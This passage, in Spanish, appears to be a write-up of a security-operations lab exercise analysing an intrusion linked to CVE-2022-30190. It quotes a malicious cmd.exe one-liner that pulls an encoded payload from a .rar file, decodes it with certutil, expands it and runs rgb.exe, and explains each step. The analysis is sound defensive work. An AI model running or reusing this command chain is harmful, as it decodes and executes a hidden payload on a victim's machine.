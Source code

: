 Esto ya podría ser sospechoso de intrusión. Revisamos la terminal de la máquina ya que estamos aquí y vemos que hay comandos que podemos afirmar prácticamente ya que son maliciosos.

```
C:/windows/system32/cmd.exe /c cd C:/users/public/&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe
```

Este comando está abriendo una cmd, yéndose a la carpeta users/public del disco C: y buscando recursivamente archivos nombrados con una fecha y los está copiand otro archivo llamado 1.rar. Busca además una cadena muy extraña, "`TVNDRgAAAA`" y redirige la salida a un archivo 1.c. Además realiza la ejecución de un .exe al final. Así que o este empleado es una especie de ciberpsicópata o estamos ante una cadena maliciosa. 

Revisando los servicios, no vemos antivirus ni otros servicios extraños realmente, solo un cmd que podría estar relacionado con el comando anterior, por lo que la primera pregunta del playbook vamos a contestar que el indicador de la amenaza es "Other", concretamente desde mi punto de vista el indicador de la amenaza es el comportamiento extraño al abrir el documento, el cual de hecho está asociado con el CVE-2022- 30190.

![](./img/Pasted%20image%2020240414195219.png)

Vamos a revisar los logs ahora para ver si el malware ha sido puesto en cuarentena: